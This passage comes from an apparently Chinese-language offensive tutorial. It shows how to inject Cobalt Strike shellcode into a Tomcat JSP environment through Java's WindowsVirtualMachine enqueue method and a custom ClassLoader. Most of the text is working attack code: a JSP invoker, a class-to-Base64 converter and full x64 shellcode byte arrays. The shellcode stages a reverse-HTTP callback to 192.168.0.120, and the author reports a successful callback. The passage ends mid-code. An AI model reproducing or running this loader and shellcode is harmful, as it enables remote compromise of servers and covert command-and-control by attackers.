71,(byte)0x5a,(byte)0x59,(byte)0x14,(byte)0xe6,(byte)0x6f,(byte)0x3d,(byte)0x80,(byte)0x57,(byte)0xa7,(byte)0xec,(byte)0x8c,(byte)0xae,(byte)0x7a,(byte)0xcf,(byte)0x3d,(byte)0x80,(byte)0xcb,(byte)0x38,(byte)0x62,(byte)0x37,(byte)0x97,(byte)0x66,(byte)0xd1,(byte)0xb0,(byte)0xa2,(byte)0x6e,(byte)0x9d,(byte)0x81,(byte)0x90,(byte)0x0a,(byte)0xab,(byte)0x3c,(byte)0xad,(byte)0x18,(byte)0x32,(byte)0x3d,(byte)0x74,(byte)0x66,(byte)0x2a,(byte)0x13,(byte)0x0b,(byte)0x47,(byte)0xe3,(byte)0x03,(byte)0xe2,(byte)0xec,(byte)0x6e,(byte)0xc7,(byte)0x65,(byte)0x18,(byte)0x68,(byte)0xe4,(byte)0x30,(byte)0x38,(byte)0xa8,(byte)0x22,(byte)0x2a,(byte)0x1b,(byte)0xf6,(byte)0xd6,(byte)0x4a,(byte)0x14,(byte)0x0e,(byte)0x4c,(byte)0x09,(byte)0x62,(byte)0xd0,(byte)0xd8,(byte)0xed,(byte)0x9f,(byte)0x09,(byte)0x54,(byte)0xdd,(byte)0x6e,(byte)0xbe,(byte)0x30,(byte)0x21,(byte)0xca,(byte)0x24,(byte)0x8f,(byte)0xc7,(byte)0x0e,(byte)0x02,(byte)0x2c,(byte)0x28,(byte)0xca,(byte)0xbb,(byte)0x5e,(byte)0x1e,(byte)0x18,(byte)0x69,(byte)0xc2,(byte)0x50,(byte)0x38,(byte)0x6d,(byte)0x45,(byte)0xa9,(byte)0x7d,(byte)0x42,(byte)0x03,(byte)0x35,(byte)0x19,(byte)0x33,(byte)0xdc,(byte)0xa8,(byte)0x5f,(byte)0xd9,(byte)0x42,(byte)0x0a,(byte)0x17,(byte)0xed,(byte)0xe8,(byte)0x6e,(byte)0x20,(byte)0xd2,(byte)0x1f,(byte)0xc3,(byte)0xdb,(byte)0xed,(byte)0x26,(byte)0x67,(byte)0xd9,(byte)0xcf,(byte)0xd7,(byte)0xca,(byte)0xde,(byte)0x71,(byte)0x1f,(byte)0xec,(byte)0xd7,(byte)0xa8,(byte)0x3f,(byte)0x7f,(byte)0x02,(byte)0xf9,(byte)0xb0,(byte)0x4f,(byte)0xc2,(byte)0xa5,(byte)0x0e,(byte)0xaa,(byte)0xd0,(byte)0x85,(byte)0x15,(byte)0x7d,(byte)0x3d,(byte)0xcb,(byte)0x6e,(byte)0xe6,(byte)0x33,(byte)0x3f,(byte)0x44,(byte)0x82,(byte)0x9f,(byte)0x93,(byte)0xef,(byte)0xd3,(byte)0x8e,(byte)0xf4,(byte)0x2a,(byte)0x97,(byte)0x20,(byte)0x11,(byte)0xf3,(byte)0xcb,(byte)0x91,(byte)0x82,(byte)0x2a,(byte)0x33,(byte)0x24,(byte)0xa8,(byte)0x8c,(byte)0xdd,(byte)0xf4,(byte)0x93,(byte)0xa4,(byte)0xe2,(byte)0xcc,(byte)0xad,(byte)0x4e,(byte)0x3b,(byte)0x60,(byte)0xb9,(byte)0x3d,(byte)0xe3,(byte)0x68,(byte)0x93,(byte)0x58,(byte)0xb0,(byte)0x91,(byte)0x44,(byte)0xdc,(byte)0x2c,(byte)0x47,(byte)0x23,(byte)0x18,(byte)0x94,(byte)0x0a,(byte)0x00,(byte)0x41,(byte)0xbe,(byte)0xf0,(byte)0xb5,(byte)0xa2,(byte)0x56,(byte)0xff,(byte)0xd5,(byte)0x48,(byte)0x31,(byte)0xc9,(byte)0xba,(byte)0x00,(byte)0x00,(byte)0x40,(byte)0x00,(byte)0x41,(byte)0xb8,(byte)0x00,(byte)0x10,(byte)0x00,(byte)0x00,(byte)0x41,(byte)0xb9,(byte)0x40,(byte)0x00,(byte)0x00,(byte)0x00,(byte)0x41,(byte)0xba,(byte)0x58,(byte)0xa4,(byte)0x53,(byte)0xe5,(byte)0xff,(byte)0xd5,(byte)0x48,(byte)0x93,(byte)0x53,(byte)0x53,(byte)0x48,(byte)0x89,(byte)0xe7,(byte)0x48,(byte)0x89,(byte)0xf1,(byte)0x48,(byte)0x89,(byte)0xda,(byte)0x41,(byte)0xb8,(byte)0x00,(byte)0x20,(byte)0x00,(byte)0x00,(byte)0x49,(byte)0x89,(byte)0xf9,(byte)0x41,(byte)0xba,(byte)0x12,(byte)0x96,(byte)0x89,(byte)0xe2,(byte)0xff,(byte)0xd5,(byte)0x48,(byte)0x83,(byte)0xc4,(byte)0x20,(byte)0x85,(byte)0xc0,(byte)0x74,(byte)0xb6,(byte)0x66,(byte)0x8b,(byte)0x07,(byte)0x48,(byte)0x01,(byte)0xc3,(byte)0x85,(byte)0xc0,(byte)0x75,(byte)0xd7,(byte)0x58,(byte)0x58,(byte)0x58,(byte)0x48,(byte)0x05,(byte)0x00,(byte)0x00,(byte)0x00,(byte)0x00,(byte)0x50,(byte)0xc3,(byte)0xe8,(byte)0x9f,(byte)0xfd,(byte)0xff,(byte)0xff,(byte)0x31,(byte)0x39,(byte)0x32,(byte)0x2e,(byte)0x31,(byte)0x36,(byte)0x38,(byte)0x2e,(byte)0x30,(byte)0x2e,(byte)0x31,(byte)0x32,(byte)0x30,(byte)0x00,(byte)0x49,(byte)0x96,(byte)0x02,(byte)0xd2
                    };
            String cmd="load";String pipeName="taest";
            m.setAccessible(true);
            Object result=m.invoke(cls,new Object[]{hProcess,buf,cmd,pipeName,new Object[]{}});
            System.out.println("result:"+result);
        }
    }
    Thread.sleep(4000);

%>
```

### 设置项目名称



测试一下。



添加tomcat运行器。



成功搭建好环境。



测试代码。


发现可以成功上线。



## 方法3.自定义类加载器 加载shellcode

自定义sun.tools.attach.WindowsVirtualMachine类，实现enqueue函数加载Shellcode。为了避免与系统中的tools.jar冲突，通过自定义classLoader，使用defineClass创建类，调用enqueue函数加载Shellcode。  
具体步骤如下：  
生成Shellcode  
在使用cs创建Shellcode时，输出的Shellcode格式如下：

```
package jspsec;

import java.util.Arrays;

public class bufToString {
    public static void main(String[] args) {
        byte buf[] = new byte[]
                {
                        (byte) 0xfc, (byte) 0x48, (byte) 0x83, (byte) 0xe4, (byte) 0xf0, (byte) 0xe8, (byte) 0xc8, (byte) 0x00, (byte) 0x00, (byte) 0x00, (byte) 0x41, (byte) 0x51, (byte) 0x41, (byte) 0x50, (byte) 0x52, (byte) 0x51, (byte) 0x56, (byte) 0x48, (byte) 0x31, (byte) 0xd2, (byte) 0x65, (byte) 0x48, (byte) 0x8b, (byte) 0x52, (byte) 0x60, (byte) 0x48, (byte) 0x8b, (byte) 0x52, (byte) 0x18, (byte) 0x48, (byte) 0x8b, (byte) 0x52, (byte) 0x20, (byte) 0x48, (byte) 0x8b, (byte) 0x72, (byte) 0x50, (byte) 0x48, (byte) 0x0f, (byte) 0xb7, (byte) 0x4a, (byte) 0x4a, (byte) 0x4d, (byte) 0x31, (byte) 0xc9, (byte) 0x48, (byte) 0x31, (byte) 0xc0, (byte) 0xac, (byte) 0x3c, (byte) 0x61, (byte) 0x7c, (byte) 0x02, (byte) 0x2c, (byte) 0x20, (byte) 0x41, (byte) 0xc1, (byte) 0xc9, (byte) 0x0d, (byte) 0x41, (byte) 0x01, (byte) 0xc1, (byte) 0xe2, (byte) 0xed, (byte) 0x52, (byte) 0x41, (byte) 0x51, (byte) 0x48, (byte) 0x8b, (byte) 0x52, (byte) 0x20, (byte) 0x8b, (byte) 0x42, (byte) 0x3c, (byte) 0x48, (byte) 0x01, (byte) 0xd0, (byte) 0x66, (byte) 0x81, (byte) 0x78, (byte) 0x18, (byte) 0x0b, (byte) 0x02, (byte) 0x75, (byte) 0x72, (byte) 0x8b, (byte) 0x80, (byte) 0x88, (byte) 0x00, (byte) 0x00, (byte) 0x00, (byte) 0x48, (byte) 0x85, (byte) 0xc0, (byte) 0x74, (byte) 0x67, (byte) 0x48, (byte) 0x01, (byte) 0xd0, (byte) 0x50, (byte) 0x8b, (byte) 0x48, (byte) 0x18, (byte) 0x44, (byte) 0x8b, (byte) 0x40, (byte) 0x20, (byte) 0x49, (byte) 0x01, (byte) 0xd0, (byte) 0xe3, (byte) 0x56, (byte) 0x48, (byte) 0xff, (byte) 0xc9, (byte) 0x41, (byte) 0x8b, (byte) 0x34, (byte) 0x88, (byte) 0x48, (byte) 0x01, (byte) 0xd6, (byte) 0x4d, (byte) 0x31, (byte) 0xc9, (byte) 0x48, (byte) 0x31, (byte) 0xc0, (byte) 0xac, (byte) 0x41, (byte) 0xc1, (byte) 0xc9, (byte) 0x0d, (byte) 0x41, (byte) 0x01, (byte) 0xc1, (byte) 0x38, (byte) 0xe0, (byte) 0x75, (byte) 0xf1, (byte) 0x4c, (byte) 0x03, (byte) 0x4c, (byte) 0x24, (byte) 0x08, (byte) 0x45, (byte) 0x39, (byte) 0xd1, (byte) 0x75, (byte) 0xd8, (byte) 0x58, (byte) 0x44, (byte) 0x8b, (byte) 0x40, (byte) 0x24, (byte) 0x49, (byte) 0x01, (byte) 0xd0, (byte) 0x66, (byte) 0x41, (byte) 0x8b, (byte) 0x0c, (byte) 0x48, (byte) 0x44, (byte) 0x8b, (byte) 0x40, (byte) 0x1c, (byte) 0x49, (byte) 0x01, (byte) 0xd0, (byte) 0x41, (byte) 0x8b, (byte) 0x04, (byte) 0x88, (byte) 0x48, (byte) 0x01, (byte) 0xd0, (byte) 0x41, (byte) 0x58, (byte) 0x41, (byte) 0x58, (byte) 0x5e, (byte) 0x59, (byte) 0x5a, (byte) 0x41, (byte) 0x58, (byte) 0x41, (byte) 0x59, (byte) 0x41, (byte) 0x5a, (byte) 0x48, (byte) 0x83, (byte) 0xec, (byte) 0x20, (byte) 0x41, (byte) 0x52, (byte) 0xff, (byte) 0xe0, (byte) 0x58, (byte) 0x41, (byte) 0x59, (byte) 0x5a, (byte) 0x48, (byte) 0x8b, (byte) 0x12, (byte) 0xe9, (byte) 0x4f, (byte) 0xff, (byte) 0xff, (byte) 0xff, (byte) 0x5d, (byte) 0x6a, (byte) 0x00, (byte) 0x49, (byte) 0xbe, (byte) 0x77, (byte) 0x69, (byte) 0x6e, (byte) 0x69, (byte) 0x6e, (byte) 0x65, (byte) 0x74, (byte) 0x00, (byte) 0x41, (byte) 0x56, (byte) 0x49, (byte) 0x89, (byte) 0xe6, (byte) 0x4c, (byte) 0x89, (byte) 0xf1, (byte) 0x41, (byte) 0xba, (byte) 0x4c, (byte) 0x77, (byte) 0x26, (byte) 0x07, (byte) 0xff, (byte) 0xd5, (byte) 0x48, (byte) 0x31, (byte) 0xc9, (byte) 0x48, (byte) 0x31, (byte) 0xd2, (byte) 0x4d, (byte) 0x31, (byte) 0xc0, (byte) 0x4d, (byte) 0x31, (byte) 0xc9, (byte) 0x41, (byte) 0x50, (byte) 0x41, (byte) 0x50, (byte) 0x41, (byte) 0xba, (byte) 0x3a, (byte) 0x56, (byte) 0x79, (byte) 0xa7, (byte) 0xff, (byte) 0xd5, (byte) 0xeb, (byte) 0x73, (byte) 0x5a, (byte) 0x48, (byte) 0x89, (byte) 0xc1, (byte) 0x41, (byte) 0xb8, (byte) 0xb9, (byte) 0x08, (byte) 0x00, (byte) 0x00, (byte) 0x4d, (byte) 0x31, (byte) 0xc9, (byte) 0x41, (byte) 0x51, (byte) 0x41, (byte) 0x51, (byte) 0x6a, (byte) 0x03, (byte) 0x41, (byte) 0x51, (byte) 0x41, (byte) 0xba, (byte) 0x57, (byte) 0x89, (byte) 0x9f, (byte) 0xc6, (byte) 0xff, (byte) 0xd5, (byte) 0xeb, (byte) 0x59, (byte) 0x5b, (byte) 0x48, (byte) 0x89, (byte) 0xc1, (byte) 0x48, (byte) 0x31, (byte) 0xd2, (byte) 0x49, (byte) 0x89, (byte) 0xd8, (byte) 0x4d, (byte) 0x31, (byte) 0xc9, (byte) 0x52, (byte) 0x68, (byte) 0x00, (byte) 0x02, (byte) 0x40, (byte) 0x84, (byte) 0x52, (byte) 0x52, (byte) 0x41, (byte) 0xba, (byte) 0xeb, (byte) 0x55, (byte) 0x2e, (byte) 0x3b, (byte) 0xff, (byte) 0xd5, (byte) 0x48, (byte) 0x89, (byte) 0xc6, (byte) 0x48, (byte) 0x83, (byte) 0xc3, (byte) 0x50, (byte) 0x6a, (byte) 0x0a, (byte) 0x5f, (byte) 0x48, (byte) 0x89, (byte) 0xf1, (byte) 0x48, (byte) 0x89, (byte) 0xda, (byte) 0x49, (byte) 0xc7, (byte) 0xc0, (byte) 0xff, (byte) 0xff, (byte) 0xff, (byte) 0xff, (byte) 0x4d, (byte) 0x31, (byte) 0xc9, (byte) 0x52, (byte) 0x52, (byte) 0x41, (byte) 0xba, (byte) 0x2d, (byte) 0x06, (byte) 0x18, (byte) 0x7b, (byte) 0xff, (byte) 0xd5, (byte) 0x85, (byte) 0xc0, (byte) 0x0f, (byte) 0x85, (byte) 0x9d, (byte) 0x01, (byte) 0x00, (byte) 0x00, (byte) 0x48, (byte) 0xff, (byte) 0xcf, (byte) 0x0f, (byte) 0x84, (byte) 0x8c, (byte) 0x01, (byte) 0x00, (byte) 0x00, (byte) 0xeb, (byte) 0xd3, (byte) 0xe9, (byte) 0xe4, (byte) 0x01, (byte) 0x00, (byte) 0x00, (byte) 0xe8, (byte) 0xa2, (byte) 0xff, (byte) 0xff, (byte) 0xff, (byte) 0x2f, (byte) 0x35, (byte) 0x78, (byte) 0x56, (byte) 0x5a, (byte) 0x00, (byte) 0xe6, (byte) 0xb8, (byte) 0x49, (byte) 0x33, (byte) 0xa3, (byte) 0x64, (byte) 0x57, (byte) 0x7d, (byte) 0x29, (byte) 0x88, (byte) 0xd7, (byte) 0x36, (byte) 0x39, (byte) 0xc7, (byte) 0x4d, (byte) 0x96, (byte) 0x8a, (byte) 0x7a, (byte) 0x23, (byte) 0x80, (byte) 0x12, (byte) 0x7f, (byte) 0x30, (byte) 0xe8, (byte) 0x9a, (byte) 0xab, (byte) 0xcc, (byte) 0x51, (byte) 0x36, (byte) 0xdc, (byte) 0x5a, (byte) 0x4e, (byte) 0xc0, (byte) 0x33, (byte) 0xa8, (byte) 0x6e, (byte) 0xc9, (byte) 0x50, (byte) 0x46, (byte) 0x1a, (byte) 0x7b, (byte) 0x2c, (byte) 0xac, (byte) 0x18, (byte) 0x99, (byte) 0x76, (byte) 0x74, (byte) 0xee, (byte) 0x26, (byte) 0x8c, (byte) 0x8b, (byte) 0xc3, (byte) 0x54, (byte) 0xea, (byte) 0x57, (byte) 0xfa, (byte) 0x62, (byte) 0x0b, (byte) 0xbd, (byte) 0x52, (byte) 0x2e, (byte) 0x86, (byte) 0xd1, (byte) 0xef, (byte) 0xc5, (byte) 0x41, (byte) 0x52, (byte) 0x5d, (byte) 0x35, (byte) 0x0a, (byte) 0xf3, (byte) 0x08, (byte) 0x55, (byte) 0x00, (byte) 0x55, (byte) 0x73, (byte) 0x65, (byte) 0x72, (byte) 0x2d, (byte) 0x41, (byte) 0x67, (byte) 0x65, (byte) 0x6e, (byte) 0x74, (byte) 0x3a, (byte) 0x20, (byte) 0x4d, (byte) 0x6f, (byte) 0x7a, (byte) 0x69, (byte) 0x6c, (byte) 0x6c, (byte) 0x61, (byte) 0x2f, (byte) 0x35, (byte) 0x2e, (byte) 0x30, (byte) 0x20, (byte) 0x28, (byte) 0x63, (byte) 0x6f, (byte) 0x6d, (byte) 0x70, (byte) 0x61, (byte) 0x74, (byte) 0x69, (byte) 0x62, (byte) 0x6c, (byte) 0x65, (byte) 0x3b, (byte) 0x20, (byte) 0x4d, (byte) 0x53, (byte) 0x49, (byte) 0x45, (byte) 0x20, (byte) 0x39, (byte) 0x2e, (byte) 0x30, (byte) 0x3b, (byte) 0x20, (byte) 0x57, (byte) 0x69, (byte) 0x6e, (byte) 0x64, (byte) 0x6f, (byte) 0x77, (byte) 0x73, (byte) 0x20, (byte) 0x4e, (byte) 0x54, (byte) 0x20, (byte) 0x36, (byte) 0x2e, (byte) 0x31, (byte) 0x3b, (byte) 0x20, (byte) 0x57, (byte) 0x4f, (byte) 0x57, (byte) 0x36, (byte) 0x34, (byte) 0x3b, (byte) 0x20, (byte) 0x54, (byte) 0x72, (byte) 0x69, (byte) 0x64, (byte) 0x65, (byte) 0x6e, (byte) 0x74, (byte) 0x2f, (byte) 0x35, (byte) 0x2e, (byte) 0x30, (byte) 0x29, (byte) 0x0d, (byte) 0x0a, (byte) 0x00, (byte) 0x06, (byte) 0x8c, (byte) 0x02, (byte) 0xe6, (byte) 0xec, (byte) 0x8b, (byte) 0x95, (byte) 0x43, (byte) 0xac, (byte) 0x29, (byte) 0xd9, (byte) 0xce, (byte) 0x8e, (byte) 0x4b, (byte) 0xe3, (byte) 0xcc, (byte) 0xac, (byte) 0x7b, (byte) 0x4b, (byte) 0x71, (byte) 0x5a, (byte) 0x59, (byte) 0x14, (byte) 0xe6, (byte) 0x6f, (byte) 0x3d, (byte) 0x80, (byte) 0x57, (byte) 0xa7, (byte) 0xec, (byte) 0x8c, (byte) 0xae, (byte) 0x7a, (byte) 0xcf, (byte) 0x3d, (byte) 0x80, (byte) 0xcb, (byte) 0x38, (byte) 0x62, (byte) 0x37, (byte) 0x97, (byte) 0x66, (byte) 0xd1, (byte) 0xb0, (byte) 0xa2, (byte) 0x6e, (byte) 0x9d, (byte) 0x81, (byte) 0x90, (byte) 0x0a, (byte) 0xab, (byte) 0x3c, (byte) 0xad, (byte) 0x18, (byte) 0x32, (byte) 0x3d, (byte) 0x74, (byte) 0x66, (byte) 0x2a, (byte) 0x13, (byte) 0x0b, (byte) 0x47, (byte) 0xe3, (byte) 0x03, (byte) 0xe2, (byte) 0xec, (byte) 0x6e, (byte) 0xc7, (byte) 0x65, (byte) 0x18, (byte) 0x68, (byte) 0xe4, (byte) 0x30, (byte) 0x38, (byte) 0xa8, (byte) 0x22, (byte) 0x2a, (byte) 0x1b, (byte) 0xf6, (byte) 0xd6, (byte) 0x4a, (byte) 0x14, (byte) 0x0e, (byte) 0x4c, (byte) 0x09, (byte) 0x62, (byte) 0xd0, (byte) 0xd8, (byte) 0xed, (byte) 0x9f, (byte) 0x09, (byte) 0x54, (byte) 0xdd, (byte) 0x6e, (byte) 0xbe, (byte) 0x30, (byte) 0x21, (byte) 0xca, (byte) 0x24, (byte) 0x8f, (byte) 0xc7, (byte) 0x0e, (byte) 0x02, (byte) 0x2c, (byte) 0x28, (byte) 0xca, (byte) 0xbb, (byte) 0x5e, (byte) 0x1e, (byte) 0x18, (byte) 0x69, (byte) 0xc2, (byte) 0x50, (byte) 0x38, (byte) 0x6d, (byte) 0x45, (byte) 0xa9, (byte) 0x7d, (byte) 0x42, (byte) 0x03, (byte) 0x35, (byte) 0x19, (byte) 0x33, (byte) 0xdc, (byte) 0xa8, (byte) 0x5f, (byte) 0xd9, (byte) 0x42, (byte) 0x0a, (byte) 0x17, (byte) 0xed, (byte) 0xe8, (byte) 0x6e, (byte) 0x20, (byte) 0xd2, (byte) 0x1f, (byte) 0xc3, (byte) 0xdb, (byte) 0xed, (byte) 0x26, (byte) 0x67, (byte) 0xd9, (byte) 0xcf, (byte) 0xd7, (byte) 0xca, (byte) 0xde, (byte) 0x71, (byte) 0x1f, (byte) 0xec, (byte) 0xd7, (byte) 0xa8, (byte) 0x3f, (byte) 0x7f, (byte) 0x02, (byte) 0xf9, (byte) 0xb0, (byte) 0x4f, (byte) 0xc2, (byte) 0xa5, (byte) 0x0e, (byte) 0xaa, (byte) 0xd0, (byte) 0x85, (byte) 0x15, (byte) 0x7d, (byte) 0x3d, (byte) 0xcb, (byte) 0x6e, (byte) 0xe6, (byte) 0x33, (byte) 0x3f, (byte) 0x44, (byte) 0x82, (byte) 0x9f, (byte) 0x93, (byte) 0xef, (byte) 0xd3, (byte) 0x8e, (byte) 0xf4, (byte) 0x2a, (byte) 0x97, (byte) 0x20, (byte) 0x11, (byte) 0xf3, (byte) 0xcb, (byte) 0x91, (byte) 0x82, (byte) 0x2a, (byte) 0x33, (byte) 0x24, (byte) 0xa8, (byte) 0x8c, (byte) 0xdd, (byte) 0xf4, (byte) 0x93, (byte) 0xa4, (byte) 0xe2, (byte) 0xcc, (byte) 0xad, (byte) 0x4e, (byte) 0x3b, (byte) 0x60, (byte) 0xb9, (byte) 0x3d, (byte) 0xe3, (byte) 0x68, (byte) 0x93, (byte) 0x58, (byte) 0xb0, (byte) 0x91, (byte) 0x44, (byte) 0xdc, (byte) 0x2c, (byte) 0x47, (byte) 0x23, (byte) 0x18, (byte) 0x94, (byte) 0x0a, (byte) 0x00, (byte) 0x41, (byte) 0xbe, (byte) 0xf0, (byte) 0xb5, (byte) 0xa2, (byte) 0x56, (byte) 0xff, (byte) 0xd5, (byte) 0x48, (byte) 0x31, (byte) 0xc9, (byte) 0xba, (byte) 0x00, (byte) 0x00, (byte) 0x40, (byte) 0x00, (byte) 0x41, (byte) 0xb8, (byte) 0x00, (byte) 0x10, (byte) 0x00, (byte) 0x00, (byte) 0x41, (byte) 0xb9, (byte) 0x40, (byte) 0x00, (byte) 0x00, (byte) 0x00, (byte) 0x41, (byte) 0xba, (byte) 0x58, (byte) 0xa4, (byte) 0x53, (byte) 0xe5, (byte) 0xff, (byte) 0xd5, (byte) 0x48, (byte) 0x93, (byte) 0x53, (byte) 0x53, (byte) 0x48, (byte) 0x89, (byte) 0xe7, (byte) 0x48, (byte) 0x89, (byte) 0xf1, (byte) 0x48, (byte) 0x89, (byte) 0xda, (byte) 0x41, (byte) 0xb8, (byte) 0x00, (byte) 0x20, (byte) 0x00, (byte) 0x00, (byte) 0x49, (byte) 0x89, (byte) 0xf9, (byte) 0x41, (byte) 0xba, (byte) 0x12, (byte) 0x96, (byte) 0x89, (byte) 0xe2, (byte) 0xff, (byte) 0xd5, (byte) 0x48, (byte) 0x83, (byte) 0xc4, (byte) 0x20, (byte) 0x85, (byte) 0xc0, (byte) 0x74, (byte) 0xb6, (byte) 0x66, (byte) 0x8b, (byte) 0x07, (byte) 0x48, (byte) 0x01, (byte) 0xc3, (byte) 0x85, (byte) 0xc0, (byte) 0x75, (byte) 0xd7, (byte) 0x58, (byte) 0x58, (byte) 0x58, (byte) 0x48, (byte) 0x05, (byte) 0x00, (byte) 0x00, (byte) 0x00, (byte) 0x00, (byte) 0x50, (byte) 0xc3, (byte) 0xe8, (byte) 0x9f, (byte) 0xfd, (byte) 0xff, (byte) 0xff, (byte) 0x31, (byte) 0x39, (byte) 0x32, (byte) 0x2e, (byte) 0x31, (byte) 0x36, (byte) 0x38, (byte) 0x2e, (byte) 0x30, (byte) 0x2e, (byte) 0x31, (byte) 0x32, (byte) 0x30, (byte) 0x00, (byte) 0x49, (byte) 0x96, (byte) 0x02, (byte) 0xd2
                };
        System.out.println(Arrays.toString(buf));
    }
}
```



自定义 自定义sun.tools.attach.WindowsVirtualMachine类

```
package sun.tools.attach;
import java.io.IOException;
public class WindowsVirtualMachine {
    public WindowsVirtualMachine() {
    }
    static native void enqueue(long var0, byte[] var2, String var3, String var4, Object... var5) throws IOException;
    static native long openProcess(int var0) throws IOException;
    public static void run(byte[] buf) {
        System.loadLibrary("attach");
        buf = new byte[] {-4, 72, -125, -28, -16, -24, -56, 0, 0, 0, 65, 81, 65, 80, 82, 81, 86, 72, 49, -46, 101, 72, -117, 82, 96, 72, -117, 82, 24, 72, -117, 82, 32, 72, -117, 114, 80, 72, 15, -73, 74, 74, 77, 49, -55, 72, 49, -64, -84, 60, 97, 124, 2, 44, 32, 65, -63, -55, 13, 65, 1, -63, -30, -19, 82, 65, 81, 72, -117, 82, 32, -117, 66, 60, 72, 1, -48, 102, -127, 120, 24, 11, 2, 117, 114, -117, -128, -120, 0, 0, 0, 72, -123, -64, 116, 103, 72, 1, -48, 80, -117, 72, 24, 68, -117, 64, 32, 73, 1, -48, -29, 86, 72, -1, -55, 65, -117, 52, -120, 72, 1, -42, 77, 49, -55, 72, 49, -64, -84, 65, -63, -55, 13, 65, 1, -63, 56, -32, 117, -15, 76, 3, 76, 36, 8, 69, 57, -47, 117, -40, 88, 68, -117, 64, 36, 73, 1, -48, 102, 65, -117, 12, 72, 68, -117, 64, 28, 73, 1, -48, 65, -117, 4, -120, 72, 1, -48, 65, 88, 65, 88, 94, 89, 90, 65, 88, 65, 89, 65, 90, 72, -125, -20, 32, 65, 82, -1, -32, 88, 65, 89, 90, 72, -117, 18, -23, 79, -1, -1, -1, 93, 106, 0, 73, -66, 119, 105, 110, 105, 110, 101, 116, 0, 65, 86, 73, -119, -26, 76, -119, -15, 65, -70, 76, 119, 38, 7, -1, -43, 72, 49, -55, 72, 49, -46, 77, 49, -64, 77, 49, -55, 65, 80, 65, 80, 65, -70, 58, 86, 121, -89, -1, -43, -21, 115, 90, 72, -119, -63, 65, -72, -71, 8, 0, 0, 77, 49, -55, 65, 81, 65, 81, 106, 3, 65, 81, 65, -70, 87, -119, -97, -58, -1, -43, -21, 89, 91, 72, -119, -63, 72, 49, -46, 73, -119, -40, 77, 49, -55, 82, 104, 0, 2, 64, -124, 82, 82, 65, -70, -21, 85, 46, 59, -1, -43, 72, -119, -58, 72, -125, -61, 80, 106, 10, 95, 72, -119, -15, 72, -119, -38, 73, -57, -64, -1, -1, -1, -1, 77, 49, -55, 82, 82, 65, -70, 45, 6, 24, 123, -1, -43, -123, -64, 15, -123, -99, 1, 0, 0, 72, -1, -49, 15, -124, -116, 1, 0, 0, -21, -45, -23, -28, 1, 0, 0, -24, -94, -1, -1, -1, 47, 53, 120, 86, 90, 0, -26, -72, 73, 51, -93, 100, 87, 125, 41, -120, -41, 54, 57, -57, 77, -106, -118, 122, 35, -128, 18, 127, 48, -24, -102, -85, -52, 81, 54, -36, 90, 78, -64, 51, -88, 110, -55, 80, 70, 26, 123, 44, -84, 24, -103, 118, 116, -18, 38, -116, -117, -61, 84, -22, 87, -6, 98, 11, -67, 82, 46, -122, -47, -17, -59, 65, 82, 93, 53, 10, -13, 8, 85, 0, 85, 115, 101, 114, 45, 65, 103, 101, 110, 116, 58, 32, 77, 111, 122, 105, 108, 108, 97, 47, 53, 46, 48, 32, 40, 99, 111, 109, 112, 97, 116, 105, 98, 108, 101, 59, 32, 77, 83, 73, 69, 32, 57, 46, 48, 59, 32, 87, 105, 110, 100, 111, 119, 115, 32, 78, 84, 32, 54, 46, 49, 59, 32, 87, 79, 87, 54, 52, 59, 32, 84, 114, 105, 100, 101, 110, 116, 47, 53, 46, 48, 41, 13, 10, 0, 6, -116, 2, -26, -20, -117, -107, 67, -84, 41, -39, -50, -114, 75, -29, -52, -84, 123, 75, 113, 90, 89, 20, -26, 111, 61, -128, 87, -89, -20, -116, -82, 122, -49, 61, -128, -53, 56, 98, 55, -105, 102, -47, -80, -94, 110, -99, -127, -112, 10, -85, 60, -83, 24, 50, 61, 116, 102, 42, 19, 11, 71, -29, 3, -30, -20, 110, -57, 101, 24, 104, -28, 48, 56, -88, 34, 42, 27, -10, -42, 74, 20, 14, 76, 9, 98, -48, -40, -19, -97, 9, 84, -35, 110, -66, 48, 33, -54, 36, -113, -57, 14, 2, 44, 40, -54, -69, 94, 30, 24, 105, -62, 80, 56, 109, 69, -87, 125, 66, 3, 53, 25, 51, -36, -88, 95, -39, 66, 10, 23, -19, -24, 110, 32, -46, 31, -61, -37, -19, 38, 103, -39, -49, -41, -54, -34, 113, 31, -20, -41, -88, 63, 127, 2, -7, -80, 79, -62, -91, 14, -86, -48, -123, 21, 125, 61, -53, 110, -26, 51, 63, 68, -126, -97, -109, -17, -45, -114, -12, 42, -105, 32, 17, -13, -53, -111, -126, 42, 51, 36, -88, -116, -35, -12, -109, -92, -30, -52, -83, 78, 59, 96, -71, 61, -29, 104, -109, 88, -80, -111, 68, -36, 44, 71, 35, 24, -108, 10, 0, 65, -66, -16, -75, -94, 86, -1, -43, 72, 49, -55, -70, 0, 0, 64, 0, 65, -72, 0, 16, 0, 0, 65, -71, 64, 0, 0, 0, 65, -70, 88, -92, 83, -27, -1, -43, 72, -109, 83, 83, 72, -119, -25, 72, -119, -15, 72, -119, -38, 65, -72, 0, 32, 0, 0, 73, -119, -7, 65, -70, 18, -106, -119, -30, -1, -43, 72, -125, -60, 32, -123, -64, 116, -74, 102, -117, 7, 72, 1, -61, -123, -64, 117, -41, 88, 88, 88, 72, 5, 0, 0, 0, 0, 80, -61, -24, -97, -3, -1, -1, 49, 57, 50, 46, 49, 54, 56, 46, 48, 46, 49, 50, 48, 0, 73, -106, 2, -46};
        try {
            enqueue(-1L, buf, "test", "test");
        } catch (Exception var2) {
            var2.printStackTrace();
        }
}

}
```



生成WindowsVirtualMachine.class  
javac WindowsVirtualMachine.java  
对WindowsVirtualMachine.class作Base64编码  
命令行输出Base64编码

```
package jspsec;

import java.io.*;
import java.util.Base64;
public class ClassToBase64 {
    public static void main(String[] args)
    {
        try {
            File file = new File("D:\\code\\webshellcode\\target\\classes\\WindowsVirtualMachine.class");
            FileInputStream fi = new FileInputStream(file);
            byte[] buffer = new byte[(int) file.length()];
            int offset = 0;
            int numRead = 0;
            while (offset < buffer.length
                    && (numRead = fi.read(buffer, offset, buffer.length - offset)) >= 0) {
                offset += numRead;
            }
            if (offset != buffer.length) {
                throw new IOException("Could not completely read file " + file.getName());
            }
            fi.close();
            String encoded = Base64.getEncoder().encodeToString(buffer);
            System.out.println(encoded);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```



自定义classLoader，使用defineClass创建类，调用enqueue函数加载ShellcodeJava示例代码：

```
import java.lang.reflect.Method;
import java.util.Base64;
public class LoadShellcode {
    public static class Myloader extends ClassLoader
    {
        public Class get(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
    public static void main(String[] args)
    {
        try {
            //calc
